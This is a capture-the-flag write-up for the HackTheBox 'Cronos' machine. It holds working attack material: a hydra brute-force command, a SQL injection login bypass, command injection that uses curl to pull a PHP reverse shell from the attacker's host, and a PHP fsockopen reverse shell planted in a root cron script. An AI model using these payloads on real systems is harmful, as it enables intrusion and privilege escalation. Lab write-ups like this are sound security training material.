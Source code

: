 # Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/cronos-01.png)


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ An Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS Port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/any-03.png)

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/site-04.png)

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/development-05.png)

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/env-06.png)

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the AES CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/login-07.png)

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/logged-08.png)

Looks like this page is running a command? lets look at the source code:

![source-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/source-09.png)


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/initial-10.png)

Lets try to modify these parameters to run something like `ls .`

![mod-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/mod-11.png)

It works:

![rce-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/rce-12.png)


This `config.php` looks interesting, lets see whats inside:

![empty-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/empty-13.png)

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/update-14.png)

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/upload-15.png)

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/shell-16.png)


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/crontab-17.png)

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/aristan-18.png)

A simple PHP script, so if we add a reverse shell line right at the top, wouldn't that give us a shell as root regardless of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `Vi`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/add-19.png)

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection once the cron-job is executed:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/root-20.png)
